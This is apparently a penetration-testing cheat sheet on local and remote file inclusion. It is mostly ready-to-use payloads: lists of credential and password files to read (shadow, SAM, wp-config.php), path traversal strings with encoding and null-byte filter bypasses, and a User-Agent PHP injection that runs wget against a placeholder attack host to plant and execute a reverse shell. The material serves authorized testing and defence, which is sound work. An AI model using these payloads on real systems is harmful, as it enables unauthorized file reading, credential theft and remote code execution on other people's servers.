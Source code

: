 # Local and remote file inclusion

Local file inclusion \(LFI\) vulnerabilities allow an attacker to read local files on the web server using malicious web requests, such as: 

* web configuration files
* log files
* password files
* other sensitive system data

LFI can also be used for remote code execution \(RCE\). In most cases, this is due to poor or missing input sanitization.

Remote file inclusions are similar, but the attacker is taking advantage of the web server's ability to call local files, and using it to upload files from remote servers. These remote files can be malicious code that executes in the context of the web server user \(e.g. www-data\).

## Interesting files

If an LFI vulnerability exists, look for these files:

### Linux

Linux system files:

```text
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
```

#### Log files

Potentially interesting logfiles:

```text
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access_log
/var/log/apache/error.log
/var/log/apache2/error.log
/var/log/httpd/error_log
```

#### CMS configuration files

Content management system configuration files:

```text
WordPress: /var/www/html/wp-config.php
Joomla: /var/www/configuration.php
Dolphin CMS: /var/www/html/inc/header.inc.php
Drupal: /var/www/html/sites/default/settings.php
Mambo: /var/www/configuration.php
PHPNuke: /var/www/config.php
PHPbb: /var/www/config.php
```

### Windows

Files that may exist on Windows systems:

```text
c:\WINDOWS\system32\eula.txt
c:\boot.ini  
c:\WINDOWS\win.ini  
c:\WINNT\win.ini  
c:\WINDOWS\Repair\SAM  
c:\WINDOWS\php.ini  
c:\WINNT\php.ini  
c:\Program Files\Apache Group\Apache\conf\httpd.conf  
c:\Program Files\Apache Group\Apache2\conf\httpd.conf  
c:\Program Files\xampp\apache\conf\httpd.conf  
c:\php\php.ini  
c:\php5\php.ini  
c:\php4\php.ini  
c:\apache\php\php.ini  
c:\xampp\apache\bin\php.ini  
c:\home2\bin\stable\apache\php.ini  
c:\home\bin\stable\apache\php.ini
```

The system and SAM files might be in different locations. As well, the path might be case-sensitive, even though it's Windows.

```text
# SYSTEMROOT is usually windows
windows\repair\SAM
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

## Techniques

### Basic

Assuming you are on a Linux system, test if you can display `/etc/passwd` by moving back 5 directory levels:

```text
http://host/?page=../../../../../etc/passwd
```

Even if this doesn't work, it doesn't mean that the website is immune to path traversal. When filtering input, developers will often prevent the use of forward slashes, but not backslashes or encoded characters.

#### wget

Sometimes browsers mess around with basic directory traversal sequences, but `wget` may work:

```text
wget http://[host]/wp-content/uploads/page.php?url=../../../../../../../var/www/html/wp-config.php
```

### Nesting traversal sequences

If the application is attempting to sanitize user input by removing traversal sequences, but does not apply this filter recursively, then it may be possible to bypass the filter by placing one sequence within another:

```text
....//

....\/

..../\

....\\
```

### URL-encoded

Encoding all the slashes and dots in your path traversal could bypass input filters:

```text
dot             %2e
forward slash   %2f
backslash       %5c
```

Example:

```text
 %2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5cetc%5cpasswd
```

### Double URL-encoded

Another encoding method:

```text
dot             %252e
forward slash   %252f
backslash       %255c
```

Example:

```text
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

### Overlong UTF-8 encoding

You can also use the illegal Unicode payload type in Burp Intruder for this technique:

```text
dot             %c0%2e  %e0%40%ae  %c0ae etc.
forward slash   %c0%af  %e0%80%af  %c0%2f etc.
backslash       %c0%5c  %c0%80%5c  etc.
```

### Null-byte injection

Some applications check whether the user-supplied file name ends in a particular file type or set of file types, and reject attempts to access anything else. A null byte terminator \(`%00` or `0x00` in hex\) added to the LFI/RFI parameter will stop processing immediately, so that any bytes following it are ignored.

In the following code example, the extension `.php` added to the file request variable `$file`:

```text
$file = $_GET['page'];
require_once("/var/www/$file.php");
```

Requesting `/etc/passwd` in this case will not work because the request becomes `passwd.php` resulting in a 404 error. However, if we add a null byte to the passwd file name it will terminate at the end of `passwd` and discard the remaining bytes:

```text
http://website/page=../../../etc/passwd%00
```

### proc/self/environ method

If you're able to request `/proc/self/environ` using LFI, you might be able to get a shell by downloading a remote file with reverse shellcode and run it on the system \(e.g. [php reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)\). You'll need to intercept the `/proc/self/environ` request and replace HTTP request header `User Agent` with the following:

```text
<?system('wget http://[attack host]]/reverseshell.txt -O shell.php');?>
```

Then execute the shell by calling the URL where it was uploaded:

```text
http://[attack host]/folder/shell.php
```

## Further reading

* [Local File Inclusion by xapax](https://xapax.gitbooks.io/security/content/local_file_inclusion.html)
* [Bypassing filters for path traversal](https://tipstrickshack.blogspot.com/2013/02/how-to-bypassing-filter-to-traversal_8831.html)
* [LFI to RCE with Perl script](https://www.exploit-db.com/papers/12992/)

